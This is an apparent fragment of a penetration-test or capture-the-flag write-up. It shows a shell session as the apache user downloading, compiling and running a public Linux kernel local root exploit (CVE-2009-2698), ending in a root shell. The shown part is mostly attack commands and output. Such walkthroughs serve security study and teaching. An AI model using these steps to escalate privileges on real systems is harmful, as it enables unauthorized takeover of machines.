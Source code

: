 ```java
    0K ..                                                    100%  360.08 MB/s

00:56:47 (360.08 MB/s) - `9542.c' saved [2643/2643]
```

![](https://i.imgur.com/FQKtAjY.png)

```java
bash-3.00$ ls
1397.c
9542.c
exploit
suggester.sh
bash-3.00$ head -n 20 9542.c
/*
**
** 0x82-CVE-2009-2698
** Linux kernel 2.6 < 2.6.19 (32bit) ip_append_data() local ring0 root exploit
**
** Tested White Box 4(2.6.9-5.ELsmp),
** CentOS 4.4(2.6.9-42.ELsmp), CentOS 4.5(2.6.9-55.ELsmp),
** Fedora Core 4(2.6.11-1.1369_FC4smp), Fedora Core 5(2.6.15-1.2054_FC5),
** Fedora Core 6(2.6.18-1.2798.fc6).
**
** --
** Discovered by Tavis Ormandy and Julien Tinnes of the Google Security Team.
** Thankful to them.
**
** --
** bash$ gcc -o 0x82-CVE-2009-2698 0x82-CVE-2009-2698.c && ./0x82-CVE-2009-2698
** sh-3.1# id
** uid=0(root) gid=0(root) groups=500(x82) context=user_u:system_r:unconfined_t
** sh-3.1#
** --
bash-3.00$ gcc -o exploit 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ls
1397.c
9542.c
exploit
suggester.sh */
bash-3.00$ ./exploit
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)

```

![](https://i.imgur.com/kzuAwAE.png)


